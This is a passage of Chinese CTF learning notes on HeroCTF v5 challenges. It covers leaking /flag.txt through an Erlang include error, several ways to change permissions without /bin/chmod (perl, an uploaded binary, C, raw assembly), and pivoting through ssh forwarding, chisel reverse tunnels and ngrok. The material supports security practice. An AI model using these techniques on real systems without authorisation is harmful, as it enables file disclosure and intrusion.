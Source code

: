 - 在erlang编程语言中，当程序中包含的库或代码有语法错误，被包含的库/代码文件的部分内容会泄露。
```erlang
-module(hello_world).
-compile(export_all).
-include("/flag.txt").

hello() ->
    io:format("hello world~n")
```
个人测试了一下，如果只写`-include("/flag.txt").`，/flag.txt的内容也会被泄露。'
145. [Chm0d](https://github.com/HeroCTF/HeroCTF_v5/tree/main/System/Chm0d)
- 无法使用chmod命令时更改文件权限的替代方法。（用户无/bin/chmod权限)
    - 使用perl。`perl -e "chmod 0755,'/flag.txt'"`
    - 找到题目机器的版本，去docker上下载一份一模一样的/bin/chmod，然后用scp命令远程拷贝到题目机器上。
    ```
    # get a copy of the "chmod" binary from a debian:11 docker image
    # (version info found in /etc/os-release)
    docker run --rm -it -v $PWD:/app debian:11 cp /bin/chmod /app
    # upload it to the server and use it to change the perms
    scp -P XXXX chmod user@AAA.BBB.CCC.DDD:
    ```
    - 利用c语言的chmod函数。
    ```c
    #include <sys/stat.h>
    void main(int argc, char* argv) {
    chmod("/flag.txt", 777);
    }
    ```
    - 汇编调用chmod syscall。
    ```
    ; nasm -felf64 chm0d.asm && ld chm0d.o
        global _start
        section .text
    _start:
        push 0x74
        mov rax, 0x78742e67616c662f
        push rax
        mov rdi, rsp
        xor esi, esi
        mov si, 0x1ff
        push 0x5a
        pop rax
        syscall
        mov rax, 60
        xor rdi, rdi
        syscall
    ```
    - 一些相关链接。https://unix.stackexchange.com/questions/83862/how-to-chmod-without-usr-bin-chmod ， https://www.reddit.com/r/sysadmin/comments/pei1d/change_file_permissions_without_chmod/
146. [Bug Hunting](https://v0lk3n.github.io/writeup/HeroCTFv5/HeroCTFv5-SystemCollection#lfm1)
- ssh命令实现端口转发（forwarding）。`ssh -L 1337:localhost:8080 bob@dyn-02.heroctf.fr -p 11232`,将本地机器1337端口转发到远程服务器的8080端口（远程服务器的localhost:8080有服务）。连接使用bob用户，端口11232，服务器为dyn-02.heroctf.fr。转发途中保留这个ssh窗口持续运行。或者用`ssh -p 14036 bob@dyn-04.heroctf.fr -D 1080`,使用bob用户身份连接dyn-04.heroctf.fr，-D创建SOCKS代理，监听在1080端口。
- [chisel](https://github.com/jpillora/chisel)+ngrok端口转发。
```
scp -P 11386 -r /opt/chisel/chiselx64 bob@dyn-01.heroctf.fr:/tmp/chisel //将chisel文件远程拷贝到题目机器上
ngrok tcp 4444 //本地机器转发tcp 4444端口
./chiselx64 server -p 4444 --reverse //本地机 setup a reverse port forwarding server
```